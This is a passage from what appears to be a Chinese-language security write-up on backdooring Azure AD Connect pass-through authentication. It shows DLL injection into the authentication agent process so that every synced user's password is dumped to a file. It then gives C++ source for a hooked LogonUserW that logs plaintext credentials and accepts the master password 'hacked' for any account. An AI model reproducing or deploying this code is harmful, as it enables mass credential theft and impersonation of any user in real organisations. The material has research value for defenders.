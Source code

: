 

## DLL注入

感谢[InjectAllTheThings](https://github.com/fdiskyou/injectAllTheThings)工具以及其中的反射DLL模块，我们把自己的DLL文件加载到了进程中并获得如下结果：

[![](https://p0.ssl.qhimg.com/t0117f7c317981e5092.png)](https://p0.ssl.qhimg.com/t0117f7c317981e5092.png)

所有连接到Azure AD的已同步用户（例如Office 365）的密码都会输出到我们的文本文件中。



## 锦上添花的收获

只需要在上面的密码收集器上再添加一些新技术，就可以将其转变为一个Azure万能密码，让攻击者使用预设的密码以任意用户身份进行单一登录。

为了实现该功能，我们需要修改**[**LogonUserW**](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw)**函数中的返回值，如果输入密码‘hacked’，无论用户的真实密码是什么，我们都可以成功登录。****LogonUserW****是一个布尔函数，它接受一个指向用户令牌的指针，使用用户令牌对该指针进行填充，如果成功，则返回true。

[![](https://p4.ssl.qhimg.com/t01a0970f9e0cf1c846.png)](https://p4.ssl.qhimg.com/t01a0970f9e0cf1c846.png)

经过测试后，我发现如果返回假的令牌或者不返回令牌都会导致进程崩溃，所以该程序需要一个有效的令牌。

那么我们可以从哪里获得一个用户令牌传递给该函数，而不需要生成令牌呢？

因为我们已经进入了****AzureADConnectAuthenticationAgentService.exe****进程，所以我们可以直接借用它的用户令牌。

新版本的DLL文件：

```
BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD   dwLogonType, DWORD dwLogonProvider, PHANDLE phToken)
`{`
  //Write to file
  ofstream myfile;
  myfile.open("c:\temp\beep.txt", std::ios_base::app);

  string user = utf8_encode(lpszUsername);
  string pass = utf8_encode(lpszPassword);

  //get time
  std::time_t result = std::time(nullptr);
  myfile &lt;&lt; "[*] ";
  myfile &lt;&lt; std::asctime(std::localtime(&amp;result));

  myfile &lt;&lt; "Username: ";
  myfile &lt;&lt; user &lt;&lt; "n";
  myfile &lt;&lt; "Password: ";
  myfile &lt;&lt; pass &lt;&lt; "nn";
  myfile.close();

  string hacked = "hacked";

  if(hacked.compare(pass))
  `{`
    // Log the user in
    return LogonUserW(lpszUsername, lpszDomain, lpszPassword, dwLogonType, dwLogonProvider, phToken);
  `}`
  else
  `{`
    // Use Skeleton Key, return true
    OpenProcessToken(GetCurrentProcess(), TOKEN_READ, phToken);
    return true;
  `}`
```